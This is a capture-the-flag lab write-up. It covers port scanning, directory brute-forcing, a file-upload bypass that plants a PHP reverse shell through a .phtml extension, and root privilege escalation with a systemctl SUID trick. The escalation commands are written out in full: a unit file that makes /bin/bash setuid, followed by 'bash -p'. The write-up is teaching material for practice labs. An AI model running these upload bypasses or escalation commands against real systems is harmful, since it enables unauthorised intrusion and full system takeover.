










the target ip was : 10.129.131.49

the question we have to answer are :

	1. how many ports are open?
	2. What version of the squid proxy is running on the machine?
	3. What is the most likely operating system this machine is running?
	4. What port is the web server running on?
	5. What is the directory that has an upload form page?
	6. What extension is allowed after running the above exercise?
	7. What is the name of the user who manages the webserver?
	8. What is the user flag?
	9. On the system, search for all SUID files. Which file stands out?
	10. What is the root flag value?

so i run a nmap scan.


and we got our first 4 questions answer there.
the web server running is this.


but the website didn't have anything.
so they told us to use gobuster to find directory's in the website.



we got the directory and it's the 5th question answer.
and what it say next is we gonna upload our .php script to get a reverse shell we use file upload vulnerability. 



and as we see in the [[Root Me]] room we have that .php script so now when we try to upload the .php extension. 
it wouldn't work but worked by .phtml extension and got the 6th question answer here.
now we start listener by netcat.



and we upload the file and use this link :  `http://10.129.131.49:3333/internal/uploads/php-reverse-shell.phtml` to run our script.  



and now we got our reverse shell.



now for the 7th & 8th question we got the username in the /home directory & the user flag inside /home/bill directory file named "user.txt". 



now they told us to privilege escalate to root user by SUID permission as we did in the [[Root Me]] room.



so i run this command and :
```bash
find / -type f -user root -perm -u=s 2>/dev/null
```
as we talked about it will search for all **SUID (Set User ID)** files owned by the **root** user, and we got the 9th question answer here.

so now i search about how privilege escalation by SUID permission using systemctl file and got this [here](https://gtfobins.org/gtfobins/systemctl/).
the commands are  :
```bash
#1st command
cat << 'EOF' > /tmp/root.service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOFsh
```

```bash
#2nd command 
/bin/systemctl link /tmp/root.service
/bin/systemctl enable --now root.service
/bin/bash -p
```

and when run this we got to the root user.



so now we go to the /root directory & ls there we see a file name called "root.txt".



 and inside that we got the 10th question & the last root FLAG, so now it's DONE.

so again Thanks for reading my write-up & try it out your self.
Good Bye, see you in another room!!

